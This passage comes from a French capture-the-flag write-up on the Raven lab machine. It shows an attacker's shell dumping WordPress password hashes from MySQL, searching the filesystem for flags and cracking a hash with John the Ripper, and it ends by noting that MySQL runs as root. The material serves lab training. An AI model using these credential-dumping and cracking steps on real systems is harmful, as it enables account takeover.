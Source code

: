Le hash de `michael` (non cassé) est le même que pour le précédent opus, mais celui de `steven` diffère :

```
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad. | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
```

Je lance `JtR` pour tenter de le casser, en attendant je fouille les flags sur le système :

```console
www-data@Raven:/var/www/html/wordpress$ grep -l -r -i flag1 .. 2> /dev/null 
../vendor/PATH
www-data@Raven:/var/www/html/wordpress$ cat ../vendor/PATH
/var/www/html/vendor/
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
www-data@Raven:/var/www/html/wordpress$ find / -name "flag*" 2> /dev/null 
/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/flag2.txt
--- snip ---
www-data@Raven:/var/www/html/wordpress$ cat /var/www/flag2.txt
flag2{6a8ed560f0b5358ecf844108048eb337}
```

`JtR` a fait son travail entre temps :

```console
john --wordlist=rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
LOLLOL1          (steven)     
1g 0:00:01:31 DONE (2023-04-02 13:36) 0.01091g/s 11446p/s 11446c/s 11446C/s LOVERS18..LOLLOL1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Malheureusement le mot de passe n'est pas accepté pour le compte Unix.

`LinPEAS` ne remonte pas grand-chose d'intéressant à première vue, pourtant il y a le serveur mysql qui tourne avec le compte `root` :

```console
  890 ?        Sl     0:04 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid
```
